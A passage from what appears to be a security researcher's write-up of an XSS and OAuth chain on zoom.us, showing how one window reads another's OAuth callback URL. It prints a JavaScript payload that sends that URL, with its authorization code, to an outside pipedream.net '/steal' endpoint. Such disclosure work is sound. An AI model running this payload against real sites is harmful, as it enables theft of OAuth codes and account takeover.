 Due to the redirect, winA is now on `http://zoom.us/webinar/register` instead of `http://redacted.zoom.us`.

The base64 encoded payload will be executed in the context of `zoom.us` now :)

```js
setTimeout(() => {
    fetch('https://en2celr7rewbul.m.pipedream.net/steal?q='+escape(window.opener.document.location));
    alert(window.opener.document.location)
},7000)
```

Meanwhile in winB, the OAuth flow takes place as we have modified the `prompt` parameter to no longer ask the user select an account, everything will happen automatically.
The OAuth flow then fails due to the state not being matched with the cookie (as we already explained above how sites protect themselves from CSRF attacks related to OAuth).

winB's location is now: 

```
https://zoom.us/google/oauth?state=bXV2aG1Sc2VRdldSeDNXNFNzLVU0Zyxnb29nbGVfc2lnbmlu&code=4%2F0AfJohXkMTag3bf2viz1wsBbj7MVAnrWkbI0p2TNsBvCZ3CqJtR89-h5qwplQ9e7MhYFaLA&scope=email+profile+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile&authuser=0&prompt=none
```

The exploit in winA will wait for 7 seconds before executing, to make sure the OAuth flow in winB completed.

winA and winB both have the same origin, so from the XSS (winA) we can read the URL which is in the winB window.

If you run this line from winA it will give you the URL for winB:
```
window.opener.document.location
```

<br>
<center>
<img src="/images/popup.png" >
</center>
<br>
